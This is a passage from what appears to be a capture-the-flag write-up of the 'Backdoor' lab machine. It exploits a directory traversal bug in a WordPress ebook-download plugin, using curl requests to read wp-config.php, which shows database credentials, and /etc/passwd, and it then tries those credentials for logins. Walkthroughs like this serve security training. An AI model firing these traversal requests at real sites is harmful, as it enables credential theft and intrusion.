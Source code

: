 I’m able to read the `wp-config.php` file just like the POC suggests,
including the database connection information:

    
    
    oxdf@hacky$ curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
    ../../../wp-config.php../../../wp-config.php../../../wp-config.php<?php
    /**
     * The base configuration for WordPress
    ...[snip]...
     */
    
    // ** MySQL settings - You can get this info from your web host ** //
    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress' );
    
    /** MySQL database username */
    define( 'DB_USER', 'wordpressuser' );
    
    /** MySQL database password */
    define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
    
    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );
    
    /** Database charset to use in creating database tables. */
    define( 'DB_CHARSET', 'utf8' );
    
    /** The database collate type. Don't change this if in doubt. */
    define( 'DB_COLLATE', '' );
    ...[snip]...
    

I can try to log into WordPress at`http://backdoor.htb/wp-login.php` with the
username admin and wordpressuser, but neither work.

#### Filesystem Enumeration

The challenge with directory traversal / file read vulns is that you typically
can’t list directories, only access files I know to exist.

`/etc/passwd` will provide a list of users:

    
    
    oxdf@hacky$ curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/passwd
    ../../../../../../../etc/passwd../../../../../../../etc/passwd../../../../../../../etc/passwdroot:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ...[snip]...
    user:x:1000:1000:user:/home/user:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
    <script>window.close()</script>
    

I can try the DB password with user and root over SSH, but it doesn’t work.

